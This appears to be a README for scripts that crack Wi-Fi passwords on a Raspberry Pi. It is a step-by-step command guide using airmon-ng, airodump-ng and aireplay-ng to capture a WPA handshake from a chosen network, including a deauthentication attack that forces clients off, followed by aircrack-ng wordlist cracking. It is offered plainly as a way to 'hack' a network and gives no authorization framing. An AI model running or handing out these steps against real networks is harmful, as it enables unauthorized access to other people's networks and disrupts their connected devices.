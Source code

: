 ## TL;DR

```sh
$ ./scan # Scan for all networks, take note of the BSSID and channel of the network you want to hack
$ ./capture <bssid> <channel> # Begin capturing network activity and attempt to spoof a handshake
$ ./kill # Stop all processes, this makes sure that all previously ran processes are killed in the background
$ ./crack # Start cracking the network password
```

## Guide

> See guide here: https://www.thepolyglotdeveloper.com/2018/06/crack-wireless-passwords-raspberry-pi-aircrack/

1. First, identify attached network devices on the Pi:
    ```sh
    $ sudo airmon-ng
    ```
2. Pick the correct network device (should be the built-in one, probably `wlan0`.
3. Start the network device in monitoring mode:
    ```sh
    $ airmon-ng start wlan0
    ```
4. A new network interface should then be created: `wlan0mon`
5. Scan for nearby networks:
    ```sh
    $ airodump-ng wlan0mon
    ```
6. If the above command doesn't run or the BSSID values are not accurate, you may need to update the IEEE OUI file:
    ```sh
    $ airodump-ng-oui-update
    ```
7. Start monitoring data for a particular network and wait for a WPA handshake, note the BSSID and channel values from the scanned results:
    ```sh
    $ airodump-ng --bssid XX:XX:XX:XX:XX --channel X --write data wlan0mon
    ```
8. Wait for a WPA handshake to appear in the upper corner of the Terminal, run the following in a separate Terminal session to speed things up:
    ```sh
    $ aireplay-ng --deauth 10 -a XX:XX:XX:XX:XX wlan0mon
    ```
9. Once a WPA handshake appears in the `airodump-ng` process, terminate the process (as well as the `aireplay-ng` one if applicable)
10. Note that some files are saved in the current working directory
11. Begin cracking the password, ensure you have a word list to use:
    ```sh
    $ aircrack-ng data-01.cap -w ./<word_list.txt>
    ```
